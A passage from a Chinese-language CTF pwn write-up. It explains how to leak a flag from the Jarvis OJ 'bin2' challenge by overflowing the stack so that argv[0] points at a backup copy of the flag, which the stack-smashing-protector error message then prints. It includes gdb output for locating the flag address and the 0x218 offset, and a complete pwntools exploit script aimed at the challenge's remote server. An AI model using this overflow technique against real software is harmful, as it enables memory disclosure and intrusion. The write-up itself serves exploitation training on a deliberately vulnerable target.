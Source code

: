 一种思路诞生：将argv[0]覆盖成flag地址，通过ssp leak来泄露。

两个步骤：寻找flag的地址；寻找argv[0]与栈指针的偏移量

程序后半部分需要我们在byte_600D20这个地址上重写flag，故这个地址不能使用。在一些小程序中，对于这些小文本会有备份，通过gdb进行查找：

**peda使用find，pwndbg使用search

```
gdb-peda$ find CTF
Searching for 'CTF' in: None ranges
Found 5 results, display max 5 items:
   bin2 : 0x400d21 ("CTF{Here's the flag on server}")
   bin2 : 0x600d21 ("CTF{Here's the flag on server}")
```

发现0x400d21处也存放该字字符串。

寻找偏移量：在main前下断点

```
0000| 0x7fffffffddd8 --> 0x7ffff7a2e830 (<__libc_start_main+240>:	mov    edi,eax)
0008| 0x7fffffffdde0 --> 0x0 
0016| 0x7fffffffdde8 --> 0x7fffffffdeb8 --> 0x7fffffffe210 ("/home/dililearngent/Desktop/CTF/pwn/stack/canary/bin2")
```

argv[0]的地址为0x7fffffffdeb8

在get函数前设置断点，查看此时栈顶的值：

```
gdb-peda$ b *0x000000000040080E
Breakpoint 2 at 0x40080e

gdb-peda$ p $rsp
$4 = (void *) 0x7fffffffdca0

偏移量：0x7fffffffdeb8-0x7fffffffdca0=0x218
```

脚本如下：

```python
# -*- coding:utf-8 -*-
from pwn import *

context(os='linux',arch='amd64',log_level='debug')

# p = process('./bin2')
p = remote('pwn.jarvisoj.com',9877)

flag_addr = 0x400d21
payload = 'a'*0x218 + p64(flag_addr)
p.sendlineafter('your name? ',payload)
p.recv()
p.sendline()
p.interactive()

或：
payload = p64(flag_addr)*200
```
